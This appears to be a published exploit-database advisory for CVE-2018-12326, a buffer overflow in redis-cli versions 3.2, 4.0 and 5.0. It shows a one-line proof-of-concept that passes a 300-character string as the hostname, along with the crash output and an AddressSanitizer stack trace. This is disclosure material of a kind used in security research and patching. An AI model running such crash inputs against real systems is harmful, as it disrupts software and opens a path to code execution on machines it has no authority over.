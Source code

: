 Exploit Title: Redis-cli Buffer Overflow<br>
Date: 2018-06-13<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://redis.io/<br>
Software Link: https://redis.io/download<br>
Version: 5.0, 4.0, 3.2<br>
Fixed on: 5.0, 4.0, 3.2<br>
CVE : CVE-2018-12326<br>
<br>
Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.<br>
<br>
$ ./src/redis-cli -h `python -c 'print "A" * 300'`<br>
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known<br>
<br>
#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566<br>
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637<br>
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5<br>
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9<br>
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)<br>
<br>
References:<br>
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES<br>
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES<br>
<br>
